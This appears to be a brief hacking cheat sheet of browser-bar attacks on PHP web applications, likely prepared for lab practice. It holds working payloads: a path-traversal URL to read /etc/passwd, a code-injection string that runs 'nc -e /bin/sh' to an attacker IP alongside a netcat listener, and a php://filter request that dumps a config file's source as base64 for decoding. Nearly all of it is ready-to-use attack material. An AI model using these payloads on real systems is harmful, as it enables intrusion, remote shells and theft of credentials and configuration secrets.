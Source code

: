 ## Hacks for in the browser

To attempt to view the /etc/passwd file </b>
`http://host/index.php?page=./../../../../../etc/passwd%00`

---
# Obtaining Shell through Browser Bar (PHP)
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
# Accessing php files on the server through the browser bar
```
http://10.11.1.208/?page=php://filter/convert.base64-encode/resource=config

# The resultant code is base64 encoded and needs to be decoded with
echo thestringofcharactersyouweregivenfromabove | base64 --decode
```
